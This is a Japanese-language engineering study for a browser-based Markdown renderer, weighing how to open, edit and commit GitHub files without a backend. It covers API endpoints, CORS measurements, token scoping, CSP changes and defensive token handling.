


# GRSMD から GitHub 上の Markdown を開き、編集し、コミットする — 調査報告 (STUDY ONLY)

- 日付: 2026-10-10
- 対象コミット: `8088bd0`
- 性質: **調査のみ (将来の検討用の記録)。** 本件の実装・仕様書の変更はまだ行っていない。採否はオーナーが別途決める (§6)。
- 前提: 本報告は、並行して設計中の「Markdown のその場編集」(保存機能を含む) を前提にしている。その設計資料 (`markdown-editing-study-ja.md`、`spec-delta-inplace-edit-ja.md`) は **非公開の作業資料** で、このリポジトリには含まれていない。本文中の `temp/inplace-edit/...` への参照は、その資料を指す。
- 表記:
  - **[検証済]** = 本セッションでコードや仕様を読んで確認した事実、または公式ドキュメントで確認した事実 (URL を付ける)
  - **[実測]** = 本セッションで `curl` を使い、GitHub のサーバーの応答ヘッダーを実際に確認した結果 (2026-10-10、Origin を `https://goodrelax.github.io` にして送信)
  - **[未検証]** = 一般知識や推測によるもの。実装の前に確認が要る
  - **[推論]** = 確認した事実から導いた判断
- 行番号は `8088bd0` 時点のもの。並行セッションが `src/` / `spec/` を変更しているので、ずれる可能性がある。

---

## 概要 (シンプルな結論)

### 推奨する仕様 (MVP)

- **その場編集の完成後に着手する。** 保存の仕組み (`DocumentSession` / `DocumentLocation` / 保存の状態機械) をそのまま使うため。
- GitHub の URL を貼ると開く。編集して **[Save] を押すと、読み込んだのと同じブランチへ直接コミットする。** Contents API の `PUT` 1 回でコミットとブランチの更新が済むので、別の「push」の操作は無い。
- **トークン:** ユーザーが GitHub で作った fine-grained PAT を貼る。権限は対象のリポジトリだけ、Contents の読み書きだけに絞る。**メモリにだけ持ち、ページを再読み込みすると消える。**
- **通信先は `api.github.com` だけ。** 読み込みとコミットのたびに、PlantUML と同じ形の確認ダイアログを出す。コミットのときはメッセージも入力してもらう。
- **GitHub 側のファイルが先に変わっていたら、コミットせずに止める** (409 Conflict)。自動では上書きしない。
- OAuth と GitHub App は、バックエンドが要るので採用しない (§3.2)。

### PR

- MVP には入れない。段階 3 で「新しいブランチにコミットして PR を作る」を追加する。保護されたブランチへ直接コミットできない場合の逃げ道になる。トークンには Pull requests の書き込み権限が追加で要る。

### 変更規模 (概算、未検証)

| 段階 | 内容 | 本体の JS | テスト |
| --- | --- | --- | --- |
| 0 | ローカルのクローン + その場編集で保存 (コミットは利用者が自分の git で行う) | ヘルプの追記だけ | — |
| 1 | 公開ファイルを読み取り専用で開く (トークン不要) | 150〜250 行 | 150〜250 行 |
| 2 (MVP) | トークンを使い、同じブランチへコミット | +400〜600 行 | +300〜500 行 |
| 3 | 新しいブランチ + PR | +150〜250 行 | — |

- MVP までで、本体は約 550〜850 行、テストは約 450〜750 行。
- **新しい npm 依存は無い** (ブラウザ標準の `fetch`、`TextEncoder` / `TextDecoder`、`btoa` で足りる)。
- 仕様書: 新しい ID が約 25 個。CON-12、INV-01、INV-20、CON-14 (その場編集の差分)、OS-02 を改訂する (§7)。
- CSP: `connect-src` に `api.github.com` を足す 1 行と、そのテスト。**オーナーの承認が要る** (§4.3)。

### 判断のポイント

- 段階 0 で足りるなら、実装は不要で、通信も 0 のまま。
- 編集してコミットするだけなら、github.dev や github.com のエディターですでにできる。GRSMD でやる価値は「GRSMD の描画を見ながら直せる」と「端末に何も残さない」の 2 点に限られる (§3.3)。

---

## 0. 要旨

1. **技術的には、バックエンドなしで実現できる。** `api.github.com` は CORS で任意のオリジンを許可しており、`Authorization` ヘッダーも許可している [実測] [検証済]。ブラウザから `GET /repos/{o}/{r}/contents/{path}` で読み、`PUT` で書けば、1 回のリクエストでコミットとブランチの更新が同時に済む。git の意味での「push」を別に行う必要はない。
2. **認証の現実的な方法は、ユーザーが入力する fine-grained PAT だけである。** OAuth の Web フローはクライアントシークレットが必須である [検証済]。デバイスフローはシークレットが不要だが、`github.com/login/oauth/access_token` が CORS ヘッダーを返さない [実測]。したがって、どちらの OAuth もバックエンド (中継) がないとブラウザだけでは完結しない。GitHub App も同じ理由で使えない。
3. **GRSMD の根幹の原則とぶつかる点は 3 つある。** (a) CON-12 (外部通信は PlantUML と外部画像だけ)、(b) ビルド時の CSP の `connect-src` (今は PlantUML のオリジンだけ)、(c) 並行して設計中の「その場編集」の CON-14 (保存処理でネットワーク通信をしない)。いずれもオーナーが決めることで、Claude が決めてよいものではない。
4. **トークンの最大のリスクは XSS と、同じオリジンの別ページである。** GRSMD の CSP (`script-src` はハッシュだけ) と、専用の DOMPurify インスタンスによって、注入されたスクリプトはまず実行されない。ただし、もし実行されてしまえば、`img-src https:` と画面遷移を使ってトークンを外部へ送り出せる。また、`goodrelax.github.io` のオリジンは GoodRelax のすべての Pages プロジェクトで共有されている。そのため、トークンは **メモリのみ** に持ち、フレームの中に埋め込まれた状態では GitHub 機能を無効にするべきである [推論]。
5. **推奨:** 段階 0 として、通信なしのローカルクローン方式を案内する (その場編集の Save をそのまま使う)。段階 1 は、トークンなしで公開ファイルを開く読み取り専用機能にする。段階 2 (MVP) は、fine-grained PAT をメモリのみに持ち、Contents API で同じブランチへコミットする。段階 3 で、ブランチを作ってプルリクエストを出す方式を加える。**新しい npm 依存は不要**で、`fetch`、`TextEncoder` / `TextDecoder`、`btoa` だけで足りる。その場編集の `DocumentSession` / `DocumentLocation` / `SaveDocument` の上に、「保存先の種類」を 1 つ足す形で組み込める (§2)。

---

## 1. 現状 (コードで確認した事実) [検証済]

### 1.1 ファイルの読み込み経路

| 経路 | 場所 | 内容 |
| --- | --- | --- |
| ドロップ | [UIController.js:297-374](../../src/js/classes/UIController.js:297) | `dragover` と `drop` を document で受ける。`getAsFileSystemHandle()` は最初の `await` より前に同期で呼ぶ (CON-01、[:308-312](../../src/js/classes/UIController.js:308))。5 MB を超えると拒否する ([:316](../../src/js/classes/UIController.js:316)、`CONFIG.fileDrop.maxBytes` は [config.js:35](../../src/js/config.js:35))。`.md` なら `file.text()` → `preprocessInput` → `loadMarkdown(text, theme, fileHandle)` の順に進む ([:326-341](../../src/js/classes/UIController.js:326))。それ以外は、拡張子表、バイナリの拡張子、先頭 8 KB の NUL 検査の順に判定してコードビューへ回す |
| ペースト | [UIController.js:378-397](../../src/js/classes/UIController.js:378) | 初期状態で `#editor` が空のときだけ、`text/plain` を取り込んで自動で描画する |
| ハンドル | [RendererOrchestrator.js:59-65](../../src/js/classes/RendererOrchestrator.js:59) | `.md` のハンドルは `_mdFileHandle` に入れる。新しいファイルを読み込んだときは、外部画像の同意を失効させる |
| Reload | [UIController.js:261-277](../../src/js/classes/UIController.js:261) → [RendererOrchestrator.js:135-145](../../src/js/classes/RendererOrchestrator.js:135) | 保持しているハンドルから `getFile().text()` で読み直す。ハンドルがないときはトーストを出す。対応しているかは `FILE_SYSTEM_HANDLE_SUPPORTED` で判定する ([config.js:162](../../src/js/config.js:162)) |
| 保存 | なし | 現行のコードに保存機能はない (OS-11)。保存は、その場編集の設計 (別のストリーム) で追加される予定である |

**ネットワークから文書を読み込む経路は、今は 1 つもない。**

### 1.2 ビルド時の CSP ([vite.config.js](../../vite.config.js))

- `buildCsp()` ([vite.config.js:51-64](../../vite.config.js:51)) の値は `default-src 'none'`、`script-src 'sha256-…'` (インライン化したスクリプトのハッシュだけ)、`style-src 'self' 'unsafe-inline'`、`img-src 'self' data: blob: <PlantUML> https:` ([:57](../../vite.config.js:57))、`font-src data:`、**`connect-src <PlantUML のオリジン>`** ([:60](../../vite.config.js:60))、`base-uri 'none'`、`form-action 'none'` である。
- PlantUML のオリジンは `CONFIG.plantuml.serverUrl` から導く ([:48](../../vite.config.js:48))。`<meta>` は `<meta charset>` の直後に注入する ([:98-104](../../vite.config.js:98))。単体テストは [cspPlugin.test.js:63](../../src/__tests__/cspPlugin.test.js:63) が `connect-src https://www.plantuml.com` を確かめている。
- **その結果、ページの `fetch` で通信できるのは PlantUML のサーバーだけである。** 現在 `fetch` を使っているのは、DiagramCopyController が PlantUML の SVG と PNG を取り直す 2 か所だけである ([DiagramCopyController.js:158](../../src/js/classes/DiagramCopyController.js:158), [:195](../../src/js/classes/DiagramCopyController.js:195))。`api.github.com` へ通信するには、CSP の変更 (INV-20 の値の変更) が必須になる。
- 補足: `<meta>` の CSP では `frame-ancestors` が効かない (仕様の INV-20 にも明記されている)。GitHub Pages は任意の HTTP ヘッダーを付けられない。実際に配信されている応答には CSP ヘッダーも `X-Frame-Options` もない [実測: `goodrelax.github.io/gr-simple-md-renderer/` の応答ヘッダー]。

### 1.3 外部画像の同意ゲート ([ExternalImageGate.js](../../src/js/classes/ExternalImageGate.js))

- DOMPurify のフック `afterSanitizeAttributes` ([MarkdownRenderer.js:40-42](../../src/js/classes/MarkdownRenderer.js:40)) から `neutralize()` ([ExternalImageGate.js:131](../../src/js/classes/ExternalImageGate.js:131)) が呼ばれ、外部の `src` / `srcset` を `data-external-*` に退避する。`apply()` ([:172](../../src/js/classes/ExternalImageGate.js:172)) は、退避した画像をクリックで読み込む代替表示に置き換える。
- 同意は `window.confirm` で取り、ホスト名の一覧を見せる ([:190-211](../../src/js/classes/ExternalImageGate.js:190)、文言は [:282-295](../../src/js/classes/ExternalImageGate.js:282))。同意はメモリだけに持つ (`_granted`)。Clear と新しい `.md` のドロップで失効する ([:214](../../src/js/classes/ExternalImageGate.js:214))。
- **相対パスの画像は外部として扱う** (アプリの配信元へのリクエストになるため)。GitHub から開いた文書の相対パスの画像 (`./img/a.png`) は、そのままでは `goodrelax.github.io` へのリクエストになる。正しく表示するには、リポジトリ上の URL へ書き換える必要がある (§4.7)。
- サニタイズは **専用の DOMPurify インスタンス** で行う ([MarkdownRenderer.js:36-38](../../src/js/classes/MarkdownRenderer.js:36))。`<style>` は禁止している ([:12-16](../../src/js/classes/MarkdownRenderer.js:12))。

### 1.4 PlantUML の同意フロー ([PlantUMLRenderer.js](../../src/js/classes/PlantUMLRenderer.js))

- PlantUML のブロックがあると、描画のたびに `window.confirm` を出す ([PlantUMLRenderer.js:24-35](../../src/js/classes/PlantUMLRenderer.js:24))。文言は「Security & Confidentiality Warning / Your data will be sent to an external PlantUML rendering server. / [OK] … / [Cancel] …」である。キャンセルすると「Rendering Canceled」を表示する ([:37-45](../../src/js/classes/PlantUMLRenderer.js:37))。
- **GitHub への通信の同意 UI は、この形 (`window.confirm`、送り先と送る内容、[OK] と [Cancel] の意味を明記する) に合わせるのが自然である** (§4.2)。

---

## 2. その場編集 (別のストリーム) との関係

### 2.1 その場編集の設計の要点 (読んだ範囲) [検証済]

出典: `temp/inplace-edit/markdown-editing-study-ja.md` の §0.1 と §9、`temp/inplace-edit/spec-delta-inplace-edit-ja.md` (起草 v7)。

| 要素 | 内容 |
| --- | --- |
| `DocumentSession` (Entity) | 文書の値を持つ: `documentId`、ラッパー (`wrapperPrefix` / `wrapperSuffix`)、`lineEnding`、`hasBom`、`baselineBodyText`、`baselineLastModified`。`fromFileText` / `fromPastedText` / `withSaved` / `toFileText` / `isBodyChanged` を持つ。**fileHandle は持たない** |
| `DocumentLocation` (UseCase 層の値) | 保存先: `fileName` と `fileHandle`。保存先の唯一の正 (INV-55)。UIController が現在の値を 1 つ持つ |
| `SaveDocument` / `SaveDocumentAs` (UseCase) | `SaveRequest` (セッション、保存先、本文、権限またはピッカーの Promise、`OverwriteConfirmPort`) を受け取り、`SaveOutcome` (`status`、`documentId`、`session`、`location`、`message`) を返す |
| `MarkdownFileAccess` (Adapter) | ローカルファイルの読み書きを担う: `startPermissionRequest`、`startSavePicker`、`readFile`、`readLastModified`、`writeFile`、`startDownload`、`canWriteInPlace` |
| `saveOperationStateMachine` | `idle` ⇄ `writingFile`。保存中は文書の置き換えを拒む (INV-54)。結果は、保存を始めたときの文書 ID と一致する場合だけ反映する |
| 外部変更の確認 | INV-39: 上書きの直前に `lastModified` が基準と違えば、`OverwriteConfirmPort.confirmOverwrite()` で確認する |
| 制約 | **CON-13** (自動保存の禁止。IndexedDB / OPFS / Cache Storage も禁止)、**CON-14 (保存処理はネットワーク通信を行ってはならない)**、INV-50 (`document.title` にファイル名を入れない) |
| 使用済みの ID | G-10、SC-22〜24、OS-18 (と OS-06 / 11 / 13 の改訂)、CON-13〜15、INV-21〜55、FS-17〜20、PRT のセクション U / V / W |

### 2.2 組み合わせ方の提案 (その場編集の設計は変えない)

**基本方針:** GitHub は「新しい保存先の種類」と「新しい読み込み元」として足す。ブロック編集、未保存の判定、描画のキュー、`DocumentSession` の変換 (BOM、改行コード、ラッパー) は、そのまま使う。

| その場編集の要素 | GitHub 対応での扱い (案) |
| --- | --- |
| `DocumentSession` | **変更しない。** GitHub から読んだ文書も、`fromFileText(fileText, hasBom, lastModified, documentId)` で作る。base64 をデコードしたバイト列から BOM を検出し、UTF-8 として厳密にデコードする。`lastModified` には取得した時刻 (またはコミットの時刻) を入れる。比較には使わない。`toFileText()` は、コミットするときの文字列の生成にそのまま使える |
| `DocumentLocation` | **保存先の種類を足す (拡張。同じ差分の適用後に、別の差分として)。** `kind: "local"` (既存の `fileName` + `fileHandle`) と `kind: "github"` (`owner`、`repo`、`branch`、`path`、`blobSha`、`isPrivate`) に分ける。リモートの版 (`blobSha`) は文書の値ではなく保存先の値なので、`DocumentSession` ではなくここに持つ。これで「保存先は `DocumentLocation` だけを正とする」(INV-55) を保てる |
| `SaveDocument` / `SaveDocumentAs` | **変更しない。** 新しい UseCase `CommitDocumentToGitHub` を同じ層に足す。入力は `SaveRequest` と同じ形 (セッション、保存先、本文、確認のポート) に、コミットメッセージを加える。出力は `SaveOutcome` をそのまま使う (`status` に `"committed"` / `"conflict"` / `"rejected"` を足す)。成功すると、新しい `blobSha` を持つ `DocumentLocation` を返す |
| `MarkdownFileAccess` | **変更しない。** 対になる Adapter として `GitHubContentsClient` を新設する (`getFile`、`putFile`、`getRepo`、後で `createBranch` / `createPullRequest`)。トークンはこのインスタンスの private フィールドにだけ持つ |
| `OverwriteConfirmPort` | 同じ考え方で `RemoteSendConfirmPort` を足す (送信の同意。§4.2)。外部変更の確認は、GitHub では `lastModified` ではなく **sha の不一致 (409 Conflict)** で検出する |
| `saveOperationStateMachine` | 状態 `writingFile` を「コミット中」にも使う (二重送信の防止と、INV-54 の置き換えの拒否が、そのまま効く)。状態を新しく増やす必要はない [推論] |
| Save / Save as | 保存先が `github` のとき、[Save] は「同じパスへコミット」になる (送信の同意とコミットメッセージの入力を挟む)。[Save as] は従来どおり **ローカル** (保存ダイアログまたはダウンロード) に保存する。こうすると、GitHub の文書をローカルに退避する手段が残る |
| Reload | 保存先が `github` のとき、Reload は `GET contents` で取り直す (同意を挟む)。未保存の確認 (INV-21) はそのまま効く |
| CON-14 | **衝突する。** 文言を「ローカルへの保存 (SC-24) はネットワーク通信を行ってはならない。GitHub へのコミット (SC-27) は CON-12 の同意の下でだけ通信してよい」に改める案 (§7.3)。**オーナーの決定が必要** |

**コミットの流れ (案):**



送信の同意とコミットメッセージの入力は、UseCase の外 (UIController) で行う。その場編集の INV-33 (ユーザーアクティベーションの中で権限要求を始める) は、ローカル保存のための規定である。GitHub への `fetch` にはユーザーアクティベーションが要らないので、この順序で問題ない [推論]。

---

## 3. 選択肢と比較

### 3.1 (a) ブラウザから GitHub REST API を使う

**読み取り:** `GET /repos/{owner}/{repo}/contents/{path}?ref={branch}` [検証済: https://docs.github.com/en/rest/repos/contents]

- 1 MB 以下: すべての機能が使える (JSON で、base64 の `content` と `sha` を返す)。
- 1〜100 MB: `raw` または `object` のメディアタイプだけ使える。`object` では `content` が空になる。
- 100 MB を超える: 使えない。
- **[実測]** JSON の応答には `sha`、`size`、`encoding: "base64"`、`download_url` が含まれる。`Accept: application/vnd.github.raw+json` の応答は本文だけで、`sha` を含まない。
- **[実測]** 応答の `Cache-Control` は `public, max-age=60` である。コミットの直後に読み直すと、ブラウザのキャッシュから古い内容が返ることがある [推論]。→ `fetch(..., { cache: "no-store" })` にする。

**書き込み:** `PUT /repos/{owner}/{repo}/contents/{path}` [検証済: 同上]

- 必須: `message` (コミットメッセージ)、`content` (base64)。更新する場合は `sha` (置き換える blob の sha) も必須。
- 任意: `branch` (省略すると既定のブランチ)、`committer` / `author` (省略すると認証したユーザー)。
- 応答: 200 (更新)、201 (作成)、404、**409 (Conflict)**、422 (検証の失敗。またはスパム扱い)。
- 注意: 「Delete a file」のエンドポイントと並行して使うと衝突する。リクエストは直列に送る。classic のトークンで `.github/workflows` を変更するには `workflow` スコープが要る。
- **1 回の PUT で、コミットの作成とブランチの更新が同時に済む。** git の意味での「push」は別に要らない。

**Git Data API (blobs / trees / commits / refs):** `POST git/blobs` → `POST git/trees` → `POST git/commits` → `PATCH git/refs/heads/{branch}` の 4〜5 回のリクエストが要る。複数ファイルを 1 つのコミットにまとめる場合や、1 MB を超えるファイルを扱う場合には必要になる。**1 ファイルを編集するだけなら Contents API で足りる** [推論]。

**ブランチを作ってプルリクエストを出す方式:**

1. `GET /repos/{o}/{r}` で `default_branch` と `private` を得る
2. `GET /repos/{o}/{r}/git/ref/heads/{base}` で、ベースの sha を得る
3. `POST /repos/{o}/{r}/git/refs` に `{ref: "refs/heads/grsmd/<名前>", sha}` を送る
4. `PUT contents` に `branch: "grsmd/<名前>"` を付けて送る
5. `POST /repos/{o}/{r}/pulls` に `{title, head, base, body}` を送る

リクエストは 5 回。保護されたブランチへ直接コミットできない場合の逃げ道になる。エンドポイントの形は [検証済: 権限の表で、`POST git/refs` (Contents: write)、`POST pulls` (Pull requests: write) を確認した]。リクエストの本文の項目は [未検証: 一般知識。実装の前に公式のリファレンスで確かめる]。

**fine-grained PAT に要る権限** [検証済: https://docs.github.com/en/rest/authentication/permissions-required-for-fine-grained-personal-access-tokens]

| 操作 | エンドポイント | 権限 |
| --- | --- | --- |
| ファイルを読む | `GET contents` | Contents: read |
| コミットする | `PUT contents` | Contents: write |
| リポジトリの情報 (既定のブランチ、公開か非公開か) | `GET /repos/{o}/{r}` | Metadata: read |
| ブランチを作る | `POST git/refs` | Contents: write |
| プルリクエストを出す | `POST pulls` | Pull requests: write |

→ **MVP に要る最小の権限は「Only select repositories」+ Contents: Read and write (+ 必須の Metadata: read)** である。段階 3 では Pull requests: Read and write を足す。

### 3.2 (b) バックエンドなしでの認証

| 方式 | ブラウザだけで完結するか | 根拠 | 評価 |
| --- | --- | --- | --- |
| **fine-grained PAT (ユーザーが入力)** | **できる** | `api.github.com` は CORS で任意のオリジンを許可する (「for AJAX requests from any origin」)。プリフライトで `Authorization` を許可する [検証済: https://docs.github.com/en/rest/using-the-rest-api/using-cors-and-jsonp-to-make-cross-origin-requests]。[実測] プリフライトの応答は 204、`Access-Control-Allow-Origin: *`、`access-control-allow-methods: GET, POST, PATCH, PUT, DELETE`、`access-control-allow-headers` に `Authorization, Content-Type, If-Match, …, X-GitHub-Api-Version` が含まれる。`X-RateLimit-*` と `Retry-After` は `Access-Control-Expose-Headers` に含まれていて、JS から読める | **採用を推奨**。リポジトリと権限を細かく絞れる。有効期限を必ず付けられる (組織が上限を課すこともある) |
| classic PAT | できる | 同上 | 推奨しない。`repo` スコープは全リポジトリに及ぶ |
| OAuth の Web フロー | **できない** | `POST github.com/login/oauth/access_token` では `client_secret` が「Required」。PKCE (S256) には対応しているが、文書は PKCE の場合にシークレットを省けるとは書いていない [検証済: https://docs.github.com/en/apps/oauth-apps/building-oauth-apps/authorizing-oauth-apps]。2025-07 の changelog も「GitHub does not distinguish between public and confidential clients」としている [検証済: https://github.blog/changelog/2025-07-14-pkce-support-for-oauth-and-github-app-authentication/]。シークレットを単一の HTML に埋め込むと、公開されてしまう | 採用できない (バックエンドが要る。CON-11) |
| OAuth のデバイスフロー | **できない** | シークレットは不要で (「client_secret is not needed for the device flow」)、アプリの設定で有効にする必要がある [検証済: 同上]。しかし **[実測]**: `POST https://github.com/login/oauth/access_token` (有効な公開クライアント ID + 偽のデバイスコード。副作用はない) は 200 と JSON を返したが、**`Access-Control-Allow-Origin` を返さなかった**。ブラウザはこの応答を JS に渡さない。`OPTIONS` (プリフライト) は 404 だった。文書にも「CORS pre-flight requests (OPTIONS) are not supported at this time」とある (Web フローの節) | 採用できない (CORS の中継、つまりバックエンドが要る) |
| GitHub App (ユーザーアクセストークン) | **できない** | デバイスフローと Web フローは上と同じエンドポイントを使う。トークンは 8 時間で失効し、リフレッシュトークンは 6 か月有効 [検証済: https://docs.github.com/en/apps/creating-github-apps/authenticating-with-a-github-app/generating-a-user-access-token-for-a-github-app]。インストールトークンには、秘密鍵で署名した JWT が要る [未検証: 一般知識] | 採用できない |

**[推論] 結論:** GRSMD の制約 (CON-11: バックエンドなし) の下では、**PAT をユーザーが自分で作って貼り付ける方式しか選べない**。これはユーザーにとっての手間 (トークンを作る、有効期限を管理する) になる。手順は [?] ヘルプで案内するのがよい。

### 3.3 (c) API を使わない: ローカルクローン + File System Access

- ユーザーは自分の git でリポジトリをクローンしておく。GRSMD でその中の `.md` をドロップして開き、その場編集の [Save] で上書きする。最後に、ユーザーが自分の git (または GitHub Desktop) でコミットして push する。
- **GRSMD のネットワーク通信は 0 のまま。** CON-12、CON-14、CSP を一切変える必要がない。その場編集 (SC-24) が完成すれば、**追加の実装なしで今日から使える** [推論]。
- 弱み: git の環境が要る (モバイルではほぼ無理)。上書き保存は Chrome / Edge だけ。ブランチ、コミット、プルリクエストは GRSMD の外で行う。
- 将来の改善案 (任意): `showDirectoryPicker()` でクローンしたフォルダを開き、ファイルを選んで開く。これもネットワーク通信なしでできる [未検証: API の詳細]。

**github.dev / github.com の Web エディターとの比較:**

| 観点 | github.dev [検証済: https://docs.github.com/en/codespaces/the-githubdev-web-based-editor] | github.com の鉛筆ボタン | GRSMD + PAT (案) |
| --- | --- | --- | --- |
| 開き方 | リポジトリで `.` を押す。または URL の `github.com` を `github.dev` に変える | ファイルの表示画面の編集ボタン | GitHub の URL を貼る |
| 認証 | GitHub へのサインイン (トークンは不要) | 同左 | PAT を自分で作って貼る |
| コミット / ブランチ / PR | どれもできる | できる (保護されたブランチなら PR へ誘導される [未検証]) | 段階 2 でコミット、段階 3 でブランチと PR |
| 署名 | — | 「GitHub will automatically use GPG to sign commits you make using the web interface」[検証済: https://docs.github.com/en/authentication/managing-commit-signature-verification/about-commit-signature-verification] | API でのコミットに自動で署名されるとは書かれていない [検証済: 同上]。→ 「Verified」の表示は付かない見込み [未検証] |
| 未保存の扱い | **「Unsaved work is kept in the browser's local storage」**[検証済: 同上] | ページの中だけ | メモリだけ (CON-13) |
| プレビュー | VS Code の Markdown プレビュー (Mermaid と数式の対応は [未検証]) | GitHub の描画 (Mermaid と数式に対応 [未検証]。PlantUML には対応しない [未検証]) | GRSMD の描画 (Mermaid、KaTeX、PlantUML (同意あり)、ブロック単位のその場編集) |

**[推論]** 「編集してコミットする」ことだけが目的なら、github.dev と鉛筆ボタンがすでに満たしている。GRSMD で行う価値は、(1) GRSMD の描画を見ながら、その場で直せること、(2) 端末に何も残さないこと、の 2 点に限られる。オーナーは、この価値が §4 のリスクとトークンの手間に見合うかを判断する必要がある。

### 3.4 (d) まず読み取り専用: トークンなしで公開ファイルを開く

| 読み取り先 | CORS | 制約 |
| --- | --- | --- |
| `api.github.com` の `GET contents` (トークンなし) | `Access-Control-Allow-Origin: *` [実測] | 未認証は IP ごとに 1 時間 60 回 [検証済: https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api。実測でも `X-RateLimit-Limit: 60`]。`sha` が得られるので、段階 2 にそのまま発展できる |
| `raw.githubusercontent.com` | 単純な `GET` には `Access-Control-Allow-Origin: *` [実測]。`Authorization` 付きの `GET` のプリフライトは 403 [実測] | 非公開リポジトリは読めない (トークンを付けられない)。`sha` が得られない。`Cache-Control: max-age=300` [実測] |

**[推論] 推奨は `api.github.com` だけを使うこと。** CSP の `connect-src` に足すオリジンを 1 つにできる。公開と非公開を同じ経路で扱え、段階 2 へそのまま発展できる。`raw.githubusercontent.com` を `connect-src` に足す必要はない (画像の表示に使う場合は `img-src https:` ですでに許可されていて、外部画像の同意ゲートを通る)。

**入力の形 (案):** ユーザーが `https://github.com/{o}/{r}/blob/{branch}/{path}` を貼る (または専用の入力欄に入れる)。GRSMD はこの URL を解析して API の URL を組み立てる。ブランチ名に `/` を含む場合は曖昧になるので、`GET /repos/{o}/{r}/branches` などで解決する必要がある [未検証: 解決の手順]。MVP では「ブランチ名に `/` を含まない」と制限してもよい。

### 3.5 比較のまとめ

| 選択肢 | 通信 | 認証 | CSP の変更 | CON-12 の変更 | 依存の追加 | 規模 [未検証] | 主なリスク |
| --- | --- | --- | --- | --- | --- | --- | --- |
| (c) ローカルクローン | なし | 不要 | なし | なし | なし | ヘルプの追記だけ | なし (git の環境が要る) |
| (d) 読み取り専用 (公開) | api.github.com (同意あり) | 不要 | `connect-src` を追加 | 例外を追加 | なし | JS 150〜250 行 + テスト | IP と閲覧したファイルが GitHub に伝わる |
| (a)+(b) PAT でコミット | 同上 | fine-grained PAT | 同上 | 同上 | なし | 段階 1 に加えて JS 400〜600 行 + テスト | トークンの漏えい (XSS、同一オリジン、利用者のミス) |
| (a) ブランチ + PR | 同上 | PAT (+ Pull requests) | 同上 | 同上 | なし | 段階 2 に加えて 150〜250 行 | 同上 |
| OAuth / GitHub App | — | — | — | — | — | — | バックエンドが要るので採用できない |

---

## 4. プライバシーとセキュリティ

### 4.1 トークンの扱い

| 項目 | 方針 (案) | 根拠 |
| --- | --- | --- |
| 保存場所 | **メモリだけ。** `GitHubContentsClient` のインスタンスの private フィールド (`#token`) に持つ。`window` のプロパティや DOM の属性には置かない。`console` にも出さない | CON-03 / INV-04 の趣旨。その場編集の CON-13 は IndexedDB / OPFS / Cache Storage まで禁じている |
| Web Storage 等 | localStorage、sessionStorage、Cookie、IndexedDB、OPFS、Cache Storage には **一切書かない** | 同上。**[推論] 加えて、`goodrelax.github.io` のオリジンは GoodRelax のすべての GitHub Pages プロジェクトで共有されている。** ストレージに書くと、別のプロジェクトのページからも読めてしまう |
| ページの再読み込み、New Tab | トークンは失われる。もう一度入力してもらう。New Tab は URL を開き直すだけなので、トークンは引き継がれない ([UIController.js:218-219](../../src/js/classes/UIController.js:218)) | メモリだけに持つことの当然の結果。「再入力が必要」とヘルプに書く |
| 入力欄 | `<input type="password" autocomplete="off" spellcheck="false">` を `<form>` の外に置く (`form-action 'none'` とも整合する) | ブラウザのパスワード保存を促さないため [未検証: `autocomplete="off"` でパスワードマネージャーが必ず黙るとは限らない] |
| 破棄 | [Forget token] の操作を用意する。Clear (`c`) でも破棄する (案)。一定時間使わなければ破棄する案もある (オーナーの決定) | 端末を離れたときの残存を減らす |
| URL に入れない | トークンはクエリ文字列にもフラグメントにも絶対に入れない。`Authorization: Bearer` ヘッダーだけで送る | GitHub はクエリパラメーターでの認証を 2021-09 に廃止した [検証済: https://developer.github.com/changes/2020-02-10-deprecating-auth-through-query-param/]。URL は履歴、Referer、ログに残る |
| 範囲 | fine-grained PAT で、「Only select repositories」+ Contents read/write (+ Metadata read) に絞る。有効期限を短くする (例: 7〜30 日) ように案内する | 「Tokens always include read-only access to all public repositories」[検証済: https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/managing-your-personal-access-tokens] |
| classic PAT の警告 | 形式で判定し、classic なら警告するか拒否する (fine-grained は `github_pat_`、classic は `ghp_` で始まる [未検証: 接頭辞の公式な記述は未確認]) | 範囲が広すぎるため |
